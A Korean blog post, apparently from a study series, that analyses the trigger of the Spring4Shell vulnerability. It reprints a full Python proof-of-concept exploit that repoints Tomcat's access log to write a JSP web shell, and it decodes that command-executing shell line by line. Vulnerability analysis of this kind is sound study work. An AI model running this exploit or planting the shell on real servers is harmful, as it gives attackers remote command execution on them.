

이번 글에서는 저번 글에 이어서 취약점 트리거 분석을 진행하도록 하겠다.
취약점 트리거 분석
트리거는 취약점을 발현시키는 것을 말한다.
즉, 취약점 트리거 분석이란 무엇이 Spring4Shell 을 발현시키는지 분석한다는 것이다.
4주차에서 취약점을 재현할 때 사용한 PoC 코드를 통해 취약점 트리거를 분석하겠다.
import requests
import argparse
from urllib.parse import urlparse
import time
# Set to bypass errors if the target site has SSL issues
requests.packages.urllib3.disable_warnings()
post_headers = {
"Content-Type": "application/x-www-form-urlencoded"
}
get_headers = {
"prefix": "<%",
"suffix": "%>//",
# This may seem strange, but this seems to be needed to bypass some check that looks for "Runtime" in the log_pattern
"c": "Runtime",
}
def run_exploit(url, directory, filename):
log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"
log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
exp_data = "&".join([log_pattern, log_file_suffix, log_file_dir, log_file_prefix, log_file_date_format])
# Setting and unsetting the fileDateFormat field allows for executing the exploit multiple times
# If re-running the exploit, this will create an artifact of {old_file_name}_.jsp
file_date_data = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=_"
print("[*] Resetting Log Variables.")
ret = requests.post(url, headers=post_headers, data=file_date_data, verify=False)
print("[*] Response code: %d" % ret.status_code)
# Change the tomcat log location variables
print("[*] Modifying Log Configurations")
ret = requests.post(url, headers=post_headers, data=exp_data, verify=False)
print("[*] Response code: %d" % ret.status_code)
# Changes take some time to populate on tomcat
time.sleep(3)
# Send the packet that writes the web shell
ret = requests.get(url, headers=get_headers, verify=False)
print("[*] Response Code: %d" % ret.status_code)
time.sleep(1)
# Reset the pattern to prevent future writes into the file
pattern_data = "class.module.classLoader.resources.context.parent.pipeline.first.pattern="
print("[*] Resetting Log Variables.")
ret = requests.post(url, headers=post_headers, data=pattern_data, verify=False)
print("[*] Response code: %d" % ret.status_code)
def main():
parser = argparse.ArgumentParser(description='Spring Core RCE')
parser.add_argument('--url', help='target url', required=True)
parser.add_argument('--file', help='File to write to [no extension]', required=False, default="shell")
parser.add_argument('--dir', help='Directory to write to. Suggest using "webapps/[appname]" of target app',
required=False, default="webapps/ROOT")
file_arg = parser.parse_args().file
dir_arg = parser.parse_args().dir
url_arg = parser.parse_args().url
filename = file_arg.replace(".jsp", "")
if url_arg is None:
print("Must pass an option for --url")
return
try:
run_exploit(url_arg, dir_arg, filename)
print("[+] Exploit completed")
print("[+] Check your target for a shell")
print("[+] File: " + filename + ".jsp")
if dir_arg:
location = urlparse(url_arg).scheme + "://" + urlparse(url_arg).netloc + "/" + filename + ".jsp"
else:
location = f"Unknown. Custom directory used. (try app/{filename}.jsp?cmd=id"
print(f"[+] Shell should be at: {location}?cmd=id")
except Exception as e:
print(e)
if __name__ == '__main__':
main()취약 코드 분석 내용을 떠올리면 이 코드 안에서 ClassLoader 를 변경하는 파라미터가 있고
결과적으로 웹 쉘을 생성하는 것이다.
그렇기 때문에 트리거를 분석하기 위해서
ClassLoader 를 변경하는 파라미터를 찾아보면 다음과 같다.
log_pattern = "class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20" \
f"java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter" \
f"(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B" \
f"%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di"
log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"
log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"
log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"
log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="log_pattern 부터 살펴보겠다.
로그 패턴을 웹 쉘 코드가 포함된 상수 패턴으로 변경한다는 것이다.
상수 패턴 데이터를 디코딩 해보면 다음과 같은 코드가 나온다.
<%
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
while ((a = in.read(b)) != -1) {
out.println(new String(b));
}
%>그 후 log_file_suffix 에서 엑세스 로그 파일의 접미사를 .jsp 로 설정한다.
log_file_suffix = "class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp"log_file_dir 에서는 엑세스 로그 파일의 경로를 웹루트 디렉터리로 변경한다.
log_file_dir = f"class.module.classLoader.resources.context.parent.pipeline.first.directory={directory}"log_file_prefix 에서는 엑세스 로그 파일 명을 변경한다.
log_file_prefix = f"class.module.classLoader.resources.context.parent.pipeline.first.prefix={filename}"마지막으로 log_file_date_format 에서는 엑세스 로그 파일의 날짜 포맷을 설정한다.
log_file_date_format = "class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="이러한 코드들이 트리거가 되어 우리가 4주차에서 취약점을 재현할 때 본 웹 쉘이 생성되는 것이다.

후기
나는 PoC 코드를 분석하기 전에 웹 셀을 만들 때 이렇게 많은 코드가 필요할 거라고 생각하지 못했다.
분석을 하고 나니 경로, 이름 심지어 접미사 등을 각각 변경해야 한다는 것이 매우 신기하다.